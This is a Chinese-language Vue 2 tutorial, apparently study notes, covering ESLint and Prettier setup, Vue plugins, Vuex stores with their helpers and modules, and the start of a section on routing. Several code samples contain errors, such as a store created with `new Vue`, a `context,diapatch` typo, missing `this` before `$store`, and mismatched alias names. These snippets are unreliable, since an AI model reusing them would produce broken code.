选择 2.x 版本


选择 Less 处理 CSS


选择 ESLint 代码风格


选择保存时检查代码


配置文件分离存放


不保存预设


## 2. eslintrc.js

eslintrc.js 是 ESLint 的配置文件，默认为

~~~js
module.exports = {
  root: true,
  env: {
    node: true
  },
  extends: [
    'plugin:vue/essential',
    '@vue/standard'
  ],
  parserOptions: {
    parser: 'babel-eslint'
  },
  rules: {
    'no-console': process.env.NODE_ENV === 'production' ? 'warn' : 'off',
    'no-debugger': process.env.NODE_ENV === 'production' ? 'warn' : 'off'
  }
}

~~~

> 其中 rules 是 eslint 的一些规则，可以从在 https://eslint.bootcss.com/docs/rules/ 查看


~~~js
// 当生产模式时，如果代码中出现 console 会有警告提示
'no-console': process.env.NODE_ENV === 'production' ? 'warn' : 'off',
// 当生产模式时，不允许代码中出现 debugger 下断点
'no-debugger': process.env.NODE_ENV === 'production' ? 'warn' : 'off'
~~~


添加规则，如：

~~~js
'space-before-function-paren':['error', 'never']
~~~


## 3. ESLint 自动检查

当代码不符合 ESLint 规范时，终端会自动报错，需要修正代码风格规范，重新保存才可以，如：


常见错误：

- no-multiple-empty-lines 不允许有多余空行
- no-trailing-spaces 禁用行尾空格
- eol-last 要求或禁止文件末尾存在空行
- quotes 字符串需要使用单引号包裹
- key-spacing 对象的属性和值之间，需要有一个空格分割
- comma-dangle 对象或数组的末尾，不允许出现多余的逗号
- spaced-comment 在注释中的 // 或 /* 后强制使用一致的间距
- indent 强制一致的缩进
- import/first 使用 import 导入模块的语句必须声明在文件的顶部
- space-before-function-paren 方法的形参之前是否需要保留一个空格


## 4. 配置规则

如果不需要某些规则，则可以通过  https://eslint.bootcss.com/docs/rules/  查看改规则的写法，然后写在 eslintrc.js 中，如：

~~~js
"space-before-function-paren": ["error", "never"],
~~~

> 禁止在参数的 `(` 前面有空格。


修改配置文件后，需要重启项目才可以使配置生效


## 5. ESLint 插件

安装 ESLint 插件，作者：Dirk Baeumer


~~~json
// ESLint 配置
"editor.codeActionsOnSave": {
    "source.fixAll": true,
},
"eslint.alwaysShowStatus":true,
~~~


## 6. Prettier

~~~json
// Prettier 配置
"prettier.configPath": "C:\\Users\\Forece\\.prettierrc,",
"prettier.trailingComma": "none",
"prettier.semi": false,
"prettier.printWidth":300,
"prettier.singleQuote": true,
"prettier.arrowParens": "avoid",

// Vetur 插件 HTML 代码格式化
"vetur.format.defaultFormatter.html": "js-beautify-html",
"vetur.ignoreProjectWarning": true,
"vetur.format.defaultFormatterOptions": {
    "js-beautify-html": {
        "wrap_attributes": false
    },
    "prettier": {
        "trailingComma": "none",
        "semi": false,
        "singleQuote":true,
        "arrowParens": "avoid",
        "printWidth": 300,
    }
},
~~~


配置 Vue 和 Js 文件的默认格式化工具为 Prettier


# Vue 插件

Vue 插件的功能是用于增强 Vue，其本质是一个包含 install 方法的对象。


## 1. 创建插件

定义一个 Vue 插件，在 main.js 同级目录下创建 plugins.js

~~~js
export default {
  install() {
    console.log('@plugins')
  },
}

~~~


在 main.js 中引入插件，并使用 use 方法载入插件

~~~js
import Vue from 'vue'
import App from './App.vue'
import plugins from './plugins'

Vue.use(plugins)
Vue.config.productionTip = false

new Vue({
  render: (h) => h(App),
}).$mount('#app')

~~~

> 可以看到，在控制台中，会自动运行 plugins.js 中的代码了。


## 2. 插件参数

install() 的第一个参数就是 Vue 这个构造函数，通过 Vue，我们可以配置一些全局方法，如过滤器，自定义指令，原型对象上的方法等等。


~~~js
export default {
  install(Vue) {
    // 配置过滤器
    Vue.filter()

    // 定义全局指令
    Vue.directives()

    // 定义混入对象
    Vue.mixin()

    // 在 Vue 原型对象上添加方法（vm 实例与 vc 都可以调用）
    Vue.prototype.hello = ()=>{}
  },
}

~~~


install 还可以接受其他参数，在 Vue 参数后可以传递自定义参数，如：

~~~js
export default {
  install(Vue, x, y, z) {
    console.log(x, y, z)
  },
}

~~~


在 main.js 中载入插件的时候传递实参 

~~~js
Vue.use(plugins, 1, 2, 3)
~~~


# Vuex

Vuex 专门在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对 vue 应用中多个组件的共享状态进行集中式管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。


引入 Vuex 插件的原因是 Vue 对于组件之间的通信实在是不够方便，目前 Vue 中组件通信方法有：

- props 父传子
- $emit 子传父
- Event Bus 任意组件传值


虽然全局事件总线可以任意组件间传值，但是会造成架构混乱，尤其是当数据需要回传的时候。


集中式管理：


> A 组件中的数据，使用全局事件总线将数据共享给 B,C,D


如果想实现 B、C、D 能够修改 A 组件中数据 x 的需求


使用 Vuex 实现共享数据


> 通过 Vuex 来管理共享数据，所有组件读取数据通过 Vuex，并且 Vuex 提供 API，可以让各个组件调用该 API 更新数据


什么时候使用 Vuex：

- 多个组件依赖于同一状态
- 来自不同组件的行为需要变更同一状态


## 1. 原理


## 2. 安装 Vuex

- 安装

~~~
npm i vuex -S
~~~


- main.js 中引入 veux，并加载插件

~~~js
import Vue from 'vue'
import Vuex from 'vuex'  				// 引入 Vuex
import App from './App.vue'

Vue.config.productionTip = false
Vue.use(Vuex)							// 使用 Vuex 插件

const vm = new Vue({
  store:'hello',						// 在 vm 这个 Vue 实例上绑定 store 属性
  render: h => h(App),
}).$mount('#app')

console.log(vm);						// 查看 vm 实例
~~~

> vm 上会多出一个 $store 属性，属性值即为我们在 Vue 中配置的值，hello



> 注意：只有在引入 vuex 并且使用 `Vue.use()` 后 store 才会显示在 vm 实例上，否则这个属性都不会挂载在 Vue 上，并且属性名只能使用 store


src 创建 store/index.js，该文件用来创建 Vuex 中的 store

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {},        // 用于存储数据
  getters: {},      // 用于获取 state 中数据
  mutations: {},    // 用于操作数据（state）
  actions: {},      // 用于响应组件中的动作
  modules: {},      // 用于引入模块
})
~~~


也可以将对象分离出来

~~~js
import Vue from 'vue'
import Vuex from 'vuex'

const state = {}
const getters = {}
const mutations = {}
const actions = {}
const modules = {}

// 配置 store 实例对象
const store = new Vuex.Store({
    state,
    getters,
    mutations,
    actions,
    modules
})

// 导出
export default store

~~~


然后再 main.js 中引入我们配置好的 store

~~~js
import Vue from 'vue'
// main.js 不用再次引入 Vuex 因为 store/index.js 中已经引入了
// import Vuex from 'vuex' 
import App from './App.vue'
import store from '@/store'

Vue.config.productionTip = false
// 这里也不需要使用插件了，因为 store/index.js 代码重复
// Vue.use(Vuex)

const vm = new Vue({
  store,
  render: h => h(App),
}).$mount('#app')

console.log(vm);
~~~


再次查看 vm 实例，可以看到 $store 上所有的属性与方法


## 案例

准备一个环境，用于讲解 store 中的几个配置项（state, getters, mutations, actions, modules）


### 1. 准备组件

创建两个组件：Home, About, Btn

components/Home.vue

~~~vue
<template>
  <div class="home">
    Home 组件中的数字：{{num}}
  </div>
</template>

<script>
export default {

  
}
</script>
~~~


components/About.vue

~~~vue
<template>
  <div class="about">
    About 组件中的数字：{{num}}
  </div>
</template>

<script>
export default {

  
}
</script>
~~~


components/Btn.vue

~~~vue
<template>
  <div>
    <button>点击+1</button>
  </div>
</template>

<script>
export default {

}
</script>
~~~


App.vue 引入三个组件

~~~vue
<template>
  <div id="app">
    <Home></Home>
    <About></About>
    <Btn></Btn>
  </div>
</template>

<script>
import Home from './components/Home'
import About from './components/About'
import Btn from './components/Btn'

export default {
  name: 'App',
  components: {
    Home,
    About,
    Btn
  }
}
</script>
~~~


### 2. state

> state 相当于组件中的 data，专门用于存放数据

目前 num 中没有数据，需求是让这个 num 在 Home 和 About 组件中同步，并且当点击按钮时，同时改变两个组件中 num 的值。如果用 vue 中自带的方法，那么就比较复杂了。


- 把 num 放在 App.vue 的 data 中
- 通过 props 将 num 传入三个子组件中
- 在 btn 中，定义方法，然后通过 $emit 或者全局总线将 num 值传回父组件

> 可以看出，组件中的 num 各自独立，通过种种方法将他们联系起来


而 Vuex 可以让这些数据和方法单独存放在一个地方，我们只需要修改这一个地方的数据（或调用这里的方法）就可以同步更新所有的引用。


#### 将数据放入 state

将 num 放入 state 对象，在 `src/store/index.js` 中定义

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vue({
  state: {
    num: 0
  },       
  getters: {},      // 用于获取 state 中数据
  mutations: {},    // 用于操作数据（state）
  actions: {},      // 用于响应组件中的动作
  modules: {},      // 用于引入模块
})

~~~


#### 插值语法引用 state 数据

此时，我们就在 Vue 的实例对象中的 $store 中挂载了 num 属性，通过插值语法，我们可以在组件中调用并显示

~~~vue
<template>
  <div class="home">
    Home 组件中的数字：{{$store.state.num}}
  </div>
</template>

<script>
export default {

  
}
</script>
~~~


#### 计算属性引用 state 数据

~~~vue
<template>
  <div class="about">
    About 组件中的数字：{{num}}
  </div>
</template>

<script>
export default {
  computed:{
    num(){
      return this.$store.state.num
    }
  }
  
}
</script>
~~~


### 3. getters

> getters 相当于组件中的 computed

如果 Home、About 组件都需要使用到计算属性，那么就需要在两个组件中都定义计算属性调用 state 中的数据，并且写上同样的方法，通过 getters 我们可以在 state 中定义这个方法，让组件直接调用。

- getters 类似于计算属性，可以全局使用
- computed 计算属性只能应用于本组件，其他组件无法使用或必须经过传值，没有复用性。


#### 定义 getters

在 store/index.js 中定义 getters

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    num: 0
  },       
  getters: {
    getNum(state){
      return state.num
    }
  },      
  mutations: {},    
  actions: {},      
  modules: {},      
})

~~~

> 其中 state 参数直接指向 $store.state


#### 插值语法引用 getters 中数据

~~~vue
<template>
  <div class="home">
    Home 组件中的数字：{{$store.getters.getNum}}
  </div>
</template>

<script>
export default {
  
}
</script>
~~~


### 4. mutations

> mutations 相当于组件中的 methods，但是它不能使用异步方法（定时器、axios...）

#### 改变 state 数据

插值语法虽然可以改变 state 中的数据，但是官方并不推荐直接使用这种方法，因为这种方法会造成 Vue Dev 管理工具不同步。如：

components/Btn.vue

~~~vue
<template>
  <div>
    <button @click="$store.state.num++">点击+1</button>
  </div>
</template>

<script>
export default {

}
</script>
~~~


在管理者工具中可以看到，当我们点击按钮时，Vuex 中的 state 数据并没有发生变化，我们必须点击刷新按钮，才会发生变化。而官方也提示了，更改 Vuex 的 store 中的状态的唯一方法是提交 mutation。


#### 定义 mutations

在 store/index.js 中定义 mutations

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    num: 0
  },       
  getters: {
    getNum(state){
      return state.num
    }
  },      
  mutations: {
    increase(state){
      state.num++
    }
  },    
  actions: {},      
  modules: {},      
})

~~~


#### 调用 mutations 中的方法

- 在 Btn 组件中，我们给按钮绑定 click 事件，并调用组件中的方法 addFn
- 在 addFn 中使用 $store.commit 方法调用 mutation 中的方法

~~~vue
<template>
  <div>
    <button @click="addFn">点击+1</button>
  </div>
</template>

<script>
export default {
  methods:{
    addFn(){
      // 使用 store 中 commit 方法调用 mutations 中定义的方法
      this.$store.commit('increase')
    }
  }
}
</script>
~~~

> 此时可以看到 Vuex 中的 state 数据已经同步了


也可以直接在 click 事件上调用 mutations 上的方法

~~~vue
<template>
  <div>
    <button @click="$store.commit('increase')">点击+1</button>
  </div>
</template>

<script>
export default {
}
</script>
~~~


#### mutations 中的传参

在 mutations 中定义的方法，除了 state ，还可以传第二个参数 payload，通过 payload 我们可以进行传参

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    num: 0
  },       
  getters: {
    getNum(state){
      return state.num
    }
  },      
  mutations: {
    increase(state,payload){
      state.num += payload
    }
  },    
  actions: {},      
  modules: {},      
})

~~~


在 Btn 中使用 commit 调用 increase 方法时，我们传入需要的参数，如：

~~~vue
<template>
  <div>
    <button @click="addFn">点击+1</button>
  </div>
</template>

<script>
export default {
  methods:{
    addFn(){
      // 通过第二个参数进行传参
      this.$store.commit('increase',2)
    }
  }
}
</script>
~~~


如果在使用 commit 时，没有进行传参，则会造成个payload 是 undefined 的情况，为了避免这个情况，我们可以给 payload 设定默认值

~~~js
  mutations: {
    increase(state,payload=1){
      state.num += payload
    }
  },   
~~~


### 5. actions

> actions 与 mutations 类似，都是用来定义 store 中的方法，而 actions 可以处理异步操作，实际上 actions 也是利用 commit 调用 mutations 的方法在修改 state 中的数据。

#### 定义 actions

- 在 mutations 中定义方法
- 在 actions 中使用 commit 调用 mutations 中的方法

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    num: 0,
  },
  getters: {
    getNum(state) {
      return state.num
    },
  },
  mutations: {
    increase(state, payload = 1) {
      state.num += payload
    },
    // 定义 decrease 方法
    decrease(state) {
      state.num--
    },
  },
  actions: {
    // 传入 context
    decreaseAsync(context){
      setTimeout(()=>{
        // 调用 decrease 方法
        context.commit('decrease')
      },2000)
    }
  },
  modules: {},
})

~~~

>context 是一个 miniStore，里边包含 dispatch 和 commit 方法


#### 组件中调用 actions 中的方法

在组件 methods 中使用 dispatch 调用 actions 中的方法

~~~vue
<template>
  <div>
    <button @click="addFn">点击+1</button>
    <button @click="reduceFn">点击两秒后-1</button>

  </div>
</template>

<script>
export default {
  methods:{
    addFn(){
      this.$store.commit('increase')
    },
    reduceFn(){
      this.$store.dispatch('decreaseAsync')
    }
  }
}
</script>
~~~


也可以直接绑定在 click 事件上

~~~vue
<template>
  <div>
    <button @click="$store.commit('increase')">点击+1</button>
    <button @click="$store.dispatch('decreaseAsync')">点击两秒后-1</button>

  </div>
</template>

<script>
export default {

}
</script>
~~~


#### actions 中的传参

在 mutations 和 actions 中分别传入形参 payload

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    num: 0,
  },
  getters: {
    getNum(state) {
      return state.num
    },
  },
  mutations: {
    increase(state, payload = 1) {
      state.num += payload
    },
    decrease(state, payload) {
      state.num-=payload
    },
  },
  actions: {
    decreaseAsync(context, payload){
      setTimeout(()=>{
        context.commit('decrease', payload)
      },2000)
    }
  },
  modules: {},
})

~~~

> 同样 payload 也可以在 actions 中设定默认值


组件中传入实参

~~~html
<template>
  <div>
    <button @click="addFn">点击+1</button>
    <button @click="reduceFn">点击两秒后-1</button>

  </div>
</template>

<script>
export default {
  methods:{
    addFn(){
      this.$store.commit('increase')
    },
    reduceFn(){
      this.$store.dispatch('decreaseAsync',2)
    }
  }
}
</script>
~~~


actions 中调用顺序：

1. 组件中使用 dispatch 调用 actions
2. actions 调用 mutations
3. mutations 执行业务逻辑


#### context 作用

action 中的 context 可以看做一个微型 store，里边拥有 dispatch、commit、state 等属性和方法，一般在 action 我们书写业务逻辑，如案例中的：

~~~js
  actions: {
    decreaseAsync(context, payload){
      console.log(context)
      setTimeout(()=>{
        context.commit('decrease', payload)
      },2000)
    }
  },
~~~


如果不通过  commit，我们其实也可以从 context  中获取 state 值并对其做出修改，如：

~~~js
  actions: {
    decreaseAsync(context, payload){
      console.log(context.state)
      setTimeout(()=>{
        context.state.num -= payload
      },2000)
    }
  },
~~~


但是由于 devTools 是直接监视 mutations，所以如果在 actions 中对数据进行修改，开发者工具是无法监视到数据状态的改变的，另外在 actions 中写业务处理还可以将复杂业务拆分，如：

~~~js
const actions = {
    // 调用 actions 中 demo1 方法
    task(context, value) {
        context.dispatch('demo1',value)        
    },
    // 调用 actions 中 demo2 方法
    demo1(context,value){
        context,diapatch('demo2',value)
    },
    // 调用 mutations 中 RUN 方法
    demo2(context,value){
        context.commit('RUN',value)
    }
~~~

> task 任务传递过来先用 demo1 方法处理 value，然后再用 demo2 处理，最后将值传递给 mutations 中的 RUN 方法进行处理。


## 3. 辅助函数

> 辅助函数用来将 store 中的数据和方法快速引入到组件的工具，包括 mapState, mapGetters, mapMutations, mapActions


### 1. mapState

当 Vuex 要接管多个数据时，我们就需要在 state 中添加多个属性，如：

在 store/index.js 就需要在 state 中添加对应属性

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

export default new Vuex.Store({
  state: {
    name: 'zs',
    age: 25,
    city: 'Beijing',
    country: 'China',
  },
  getters: {},
  mutations: {},
  actions: {},
  modules: {},
})
~~~


那么我们在组件中就需要调用对应 state 的值

~~~vue
<template>
  <div class="about">
    <h2>Name: {{$store.state.name}}</h2>
    <h2>Age: {{$store.state.age}}</h2>
    <h2>City: {{$store.state.city}}</h2>
    <h2>Country: {{$store.state.country}}</h2>
  </div>
</template>

<script>
export default {
  
}
</script>
~~~


每次调用都需要带上 `$store.state.变量名`，我们可以通过 `computed` 将这些值引入到当前组件，这样调用的时候就可以直接使用 computed 的变量名了，如：

~~~vue
<template>
  <div class="about">
    <h2>Name: {{ name }}</h2>
    <h2>Age: {{ age }}</h2>
    <h2>City: {{ city }}</h2>
    <h2>Country: {{ country }}</h2>
  </div>
</template>

<script>
export default {
  computed: {
    name() {
      return $store.state.name
    },
    age() {
      return $store.state.age
    },
    city() {
      return $store.state.city
    },
    country() {
      return $store.state.country
    },
  },
}
</script>

~~~


如果属性过多，我们不必依次定义 computed 计算属性，可以借助 mapState 来帮助我们完成计算属性的定义，使用 mapState 之前需要先从 Vuex 引入这个方法，如：

~~~js
import { mapState } from 'vuex'
~~~


然后在计算属性中使用数组的方法引入

~~~js
...mapState(['name', 'age', 'city', 'country']),
~~~


示例代码：

~~~vue
<template>
  <div class="about">
    <h2>Name: {{ name }}</h2>
    <h2>Age: {{ age }}</h2>
    <h2>City: {{ city }}</h2>
    <h2>Country: {{ country }}</h2>
  </div>
</template>

<script>
import {mapState} from 'vuex'
export default {
  computed: {
    ...mapState(['name','age','city','country'])
  },
}
</script>

~~~


如果想给 state 中的属性起别名，可以使用对象方法，如：

~~~js
...mapState({ xingming: 'name', nianliang: 'age', chengshi: 'city', guojia:'country' }),
~~~


同时，模板引用需要使用别名来使用插值语法

~~~vue
<h2>Name: {{ xingming }}</h2>
<h2>Age: {{ nianling }}</h2>
<h2>City: {{ chengshi }}</h2>
<h2>Country: {{ guojia }}</h2>
~~~


关于 ... 是用来展开对象用的，mapState 的返回值是一个对象，其包含的其实就是我们一开始手动写的计算属性，如：

~~~json
{
    name() {
      return $store.state.name
    },
    age() {
      return $store.state.age
    },
    city() {
      return $store.state.city
    },
    country() {
      return $store.state.country
    },
  },
~~~

> 计算属性本身也是个对象，所以需要把返回的对象展开放在计算属性这个对象中，需要使用 ... 扩展运算符


### 2. mapGetters

getters 中的数据也可以批量定义计算属性，方法同 mapState

~~~js
...mapGetters(['getNum']),
~~~


别名

~~~js
...mapGetters({shuzi:'getNum'}),
~~~


### 3. mapMutations

mapMutations 类似于 mapState 和 mapGetters，将 methods 中直接调用 commit 的所有方法批量进行映射生成对应函数


sotre/index.js 中定义 mutations 方法

~~~js
mutations: {
    increase(state) {
        state.num += 1
    },
},
~~~


在 Btn 组件中，原来直接从 methods 调用 commit 方法：

~~~vue
<template>
  <div>
    <button @click="addFn">点击+1</button>

  </div>
</template>

<script>
export default {
  methods:{
    addFn(){
      this.$store.commit('increase')
    },
  }
}
</script>
~~~


引入

~~~js
import {mapMutations} from 'vuex'
~~~


使用 mapMutations 进行映射

~~~vue
<template>
  <div>
    <button @click="increase">点击+1</button>
  </div>
</template>

<script>
import {mapMutations} from 'vuex'
export default {
  methods:{
    ...mapMutations(['increase']),
  }
}
</script>
~~~


也可以用对象方式展开，使用别名

~~~vue
<template>
  <div>
    <button @click="addFn">点击+1</button>
  </div>
</template>

<script>
import { mapMutations } from 'vuex'
export default {
  methods: {
    ...mapMutations({ addFn: 'increase' }),
  },
}
</script>

~~~


#### mapMutations 传参

如果在 mutations 中定义的方法需要传参，如：

~~~js
mutations: {
    increase(state, payload = 1) {
        state.num += payload
    },
}
~~~


而使用 mapMutations 中生成的函数是这样的

~~~js
addFn(){
    this.$store.commit('increase')
}
~~~

> 因此造成参数丢失的情况


我们在这边可以看一下 payload 是什么

~~~js
mutations: {
    increase(state, payload) {
        console.log(payload);
        state.num += payload
    },
}
~~~

> 可以看到 payload 是在绑定事件时默认的参数 event 事件


当我们在绑定事件进行传参时，payload 就替代 event 

~~~vue
<button @click="addFn(2)">点击+2</button>
~~~


### 4. mapActions

对应 dispatch 的映射方法是 mapActions，与 mapMutations 使用方法类似


引入：

~~~js
import {mapActions} from 'vuex'
~~~


在 methods 中使用 mapAcions

~~~js
...mapActions({ reduceFn: 'decreaseAsync'}),
~~~


在模板中传值

~~~vue
<button @click="reduceFn(2)">点击延迟-2</button>
~~~


示例代码：

~~~vue
<template>
  <div>
    <button @click="addFn(2)">点击+2</button>
    <button @click="reduceFn(2)">点击延迟-2</button>

  </div>
</template>

<script>
import { mapActions, mapMutations } from 'vuex'
export default {
  methods: {
    ...mapMutations({ addFn: 'increase' }),
    ...mapActions({ reduceFn: 'decreaseAsync' }),
  },
}
</script>

~~~


当 methods 中方法名与 actions 中方法名一致的时候，可以使用数组形式

~~~js
...mapActions(['decreaseAsync'],
~~~


## 4. 多组件共享数据

使用 Vuex 的目的就是为了让所有组件可以共享数据，通过在 Vuex 中创建 state，我们可以让任何组件读取并修改该数据


创建另一个组件：Person.vue

~~~vue
<template>
  <div>
    <h3>姓名：{{ name }}</h3>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '张三',
    }
  },
}
</script>

~~~


App.vue 组件引入

~~~vue
<template>
  <div>
    <Count></Count>
    <hr />
    <Person></Person>
  </div>
</template>

<script>
import Count from './components/Count.vue'
import Person from './components/Person.vue'
export default {
  components: { Count, Person },
}
</script>

~~~


将 Person 中的 data 放入到 Vuex 中的 state 中

~~~js
const state = {
  sum: 0,
  school: '尚硅谷',
  subject: 'Vue',
  name: '张三',
}
~~~


通过 mapState 将 state 展开放在 data 中

~~~js
// 引入 mapState
import { mapState } from 'vuex'
export default {
  data() {
    return {
      name: '张三',
    }
  },
  computed: {
    ...mapState(['name']),
  },
}

~~~


将 name 属性展示在 Counter 组件中

~~~vue
<h2>我的名字是：{{ name }}</h2>
~~~


只需要在 mapState 中添加一个展开属性即可

~~~js
...mapState(['sum', 'school', 'subject', 'name']),
~~~


### 共享数据综合练习

为 Person.vue 添加功能，做一个简单的人员记录功能，并纯手写 vuex 中的功能

~~~vue
<template>
<div>
    <h2>学生录入系统</h2>
    <input type="text" v-model="inpName" />
    <button @click="addStudent">添加学生</button>
    <h3 v-for="student in students" :key="student.id">姓名：{{ student.name }}</h3>
    </div>
</template>

<script>
    import { nanoid } from 'nanoid'
    export default {
        data() {
            return {
                students: [
                    { id: nanoid(), name: '张三' },
                    { id: nanoid(), name: '李四' },
                ],
                inpName: '',
            }
        },
        computed: {
            ...mapState(['name']),
        },
        methods: {
            addStudent() {
                const stuObj = { id: nanoid(), name: this.inpName }
                this.students.unshift(stuObj)
                this.inpName = ''
            },
        },
    }
</script>

~~~


将 students 数据放入 state 中

~~~js
const state = {
  sum: 0,
  school: '尚硅谷',
  subject: 'Vue',
  students: [
    { id: nanoid(), name: '张三' },
    { id: nanoid(), name: '李四' },
  ],
}
~~~


将方法添加到 mutations 中

~~~js
  ADD_PERSON(state, value) {
    state.students.unshift(value)
  },
~~~


回到模板，定义 students 计算属性来同步 state 中的 students 值，使用 commit 提交方法

~~~vue
<template>
  <div>
    <h2>人员录入系统</h2>
    <input type="text" v-model="inpName" />
    <button @click="addStudent">添加学生</button>
    <h3 v-for="student in students" :key="student.id">姓名：{{ student.name }}</h3>
  </div>
</template>

<script>
import { nanoid } from 'nanoid'
export default {
  data() {
    return {
      inpName: '',
    }
  },
  computed: {
    students() {
      return this.$store.state.students
    },
  },
  methods: {
    addStudent() {
      const stuObj = { id: nanoid(), name: this.inpName }
      this.$store.commit('ADD_PERSON', stuObj)
      this.inpName = ''
    },
  },
}
</script>

~~~


在 Counter 组件中显示学生总数，需要先在 mapState 中映射关系

~~~js
...mapState(['sum', 'school', 'subject', 'students']),
~~~


显示总数

~~~vue
<h2>总共有学生：{{ students.length }}</h2>
~~~


## 5. modules 模块化编码

当组件过多时，所有的需要共享数据的逻辑与数据修改都会挤在同一个 js 文件中，为了代码的易读性，可以按功能把代码拆分成一个个模块，如：


### 1. 同一文件拆分

~~~json
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

// 定义 store 中的数据和方法
const state = {}
const getters = {}
const mutations = {}
const actions = {}

// 以下就不用改动了
export default new Vuex.Store({
    state,
    getters,
    mutations,
    actions,
    modules,
})

~~~


### 2. 多文件拆分

如果数据确实复杂，我们还可以进一步拆分，将 state, getters, mutations, actions 这些对象分别拆分出来，然后用 export 导出，在 index.js 中导入，如：

在 store 文件夹下创建：

- state.js
- getters.js
- mutations.js
- actions.js


以 state 为例，定义 state.js 如：

~~~js
export default {
  num: 0,
  name: 'zs',
  age: 25,
  city: 'Beijing',
  country: 'China',
}
~~~


或

~~~js
const state = {
  num: 0,
  name: 'zs',
  age: 25,
  city: 'Beijing',
  country: 'China',
}

export default state
~~~


然后再 store/index.js 中导入这些文件

~~~js
import Vue from 'vue'
import Vuex from 'vuex'
import state from './state'
import getters from './getters'
import mutations from './mutations'
import actions from './actions'

Vue.use(Vuex)
export default new Vuex.Store({
    state,
    getters,
    mutations,
    actions,
    modules,
})

~~~


### 3. 模块化

#### 配置模块

~~~js
// 属于 user 相关属性与方法
const user = {
    state:{},
    getters:{},
    mutations:{},
    actions:{}
}

// 属于 cart 相关属性与方法
const cart = {
    state:{},
    getters:{},
    mutations:{},
    actions:{}
}
~~~


之后通过配置项导入模块

~~~js
import Vue from 'vue'
import Vuex from 'vuex'

Vue.use(Vuex)

const user = {
  state: {
    name: 'zs',
    age: 25,
  },
}

const count = {
  state: {
    num: 0,
  },
}

export default new Vuex.Store({
  modules: {
    user, 
    count   
  },
})

~~~


也可以通过对象方式起别名，如：

~~~js
export default new Vuex.Store({
  modules: {
    userModule: user, 
    countModule: count
  },
})
~~~

 

#### 组件调用模块数据

注意，此时的数据已经不在 state 身上，而是分别在 `$store.state.user` 和 `$store.state.count` 上，所以组件调用数据应该改写为：

~~~vue
Home 组件中的数字：{{$store.state.count.num}}
~~~


#### 辅助函数展开模块

使用 mapState 展开

~~~js
...mapState(['user', 'count']),
~~~


注意此时展开后的格式应该是：

~~~json
computed: {
    user(){
        return this.$store.state.user
    },
    count(){
        return this.$store.state.count
    }
},
~~~


所以在模板调用数据的时候，需要带上`计算属性名.属性`，如：

~~~vue
<h2>组件中的数字：{{ count.num }}</h2>
<h2>Name：{{ user.name }}</h2>
~~~


#### 命名空间

如果不想在每个变量引入的时候都加上 count, user，那么可以在计算属性引入的时候，指定命名空间

~~~json
...mapState('count', ['num']),
...mapState('user', ['name', 'age']),
~~~


如果需要引入指定命名空间，需要在模块中开启 namespaced 命名空间，如：

~~~js
const countOptions = {
  namespaced: true,
  actions: {},
  mutations: {},
  state: {},
  getters: {},
}
~~~


方法中也需要指定命名空间才可以调用指定模块中的方法：

~~~js
...mapMutations('count', { addFn: 'increase' }),
...mapActions('count', { reduceFn: 'reduceAsync' }),
~~~


调用命名空间下的 mutations 和 actions 方法应该使用 / 路径

~~~js
  methods: {
    addFn() {
      this.$store.commit('count/increase', 2)
    },
  },
~~~


# Vue 路由

传统网页是由多个页面组成，当用户点击链接时，会跳转到相应页面，而单页面应用中只有一个 index.html ，要想实现这种页面切换功能，就需要用路由来实现。


## 1. SPA 路由原理

Vue 通过监视 URL 的变化，来在指定的位置展示对应的组件，实现单页面路由的功能，其主要原理是利用锚点 # 来进行页面跳转，如：

~~~html
  <style>
    #box1, #box2, #box3 {
      min-height: 1000px;
    }
    #box1 {
      background-color: pink;
    }
    #box2 {
      background-color: skyblue;
    }
    #box3 {
      background-color: lightgreen;
    }
  </style>
  <div id="index">
    <a href="#box1">BOX1</a>
    <a href="#box2">BOX2</a>
    <a href="#box3">BOX3</a>
  </div>
  <div id="box1">BOX1</div>
  <div id="box2">BOX2</div>
  <div id="box3">BOX3</div>
~~~


通过 URL：

~~~html
/index.html#box3
~~~

> location.hash 的形式进行页面跳转


## 2. 前端路由的工作方式

前端路由就是 Hash 地址与组件之间的对应关系。通过锚链接，隐藏其他组件元素，并显示对应组件的这么一个过程。


- 用户点击页面上的路由链接
- 导致 URL 地址栏中 Hash 值的变化
- 前端路由侦听到了 Hash 地址的变化
- 前端路由把当前 Hash 地址对应的组件渲染到浏览器中


## 3. 简易前端路由

创建 APP 组件

~~~vue
<template>
  <div id="app">
    <h1>根组件</h1>
    <a href="#/home">首页</a>
    <a href="#/movie">电影</a>
    <a href="#/about">关于</a>
    <hr>

    <Home></Home>
    <Movie></Movie>
    <About></About>

  </div>
</template>

<script>
import Home from '@/components/Home.vue'
import Movie from '@/components/Movie.vue'
import About from '@/components/About.vue'

export default {
  name: 'App',
  components: {
    Home,
    Movie,
    About
  }
}
</script>

<style lang="less">
a{
  margin-right:10px;
}
</style>

~~~


以及三个子组件

~~~vue
<template>
  <div class="home-container">
    <h2>Home 组件</h2>
  </div>
</template>

<script>
export default {

}
</script>

<style lang="less" scoped>
.home-container {
  height: 200px;
  background-color: pink;
}
</style>

~~~


~~~vue
<template>
  <div class="movie-container">
    <h2>Movie 组件</h2>
  </div>
</template>

<script>
export default {

}
</script>

<style lang="less" scoped>
.movie-container {
  height: 200px;
  background-color: skyblue;
}
</style>

~~~


~~~vue
<template>
  <div class="about-container">
   <h2>About 组件</h2>
  </div>
</template>

<script>
export default {

}
</script>

<style lang="less" scoped>
.about-container {
  height: 200px;
  background-color: lightgreen;
}
</style>

~~~


要实现动态组件的切换，需要使用 component 标签的 is 属性来展示对应组件

~~~vue
<component :is="comName"></component>
~~~


并在 data 中穿件 comName 属性

~~~vue
  data () {
    return {
      comName: 'Home'
    }
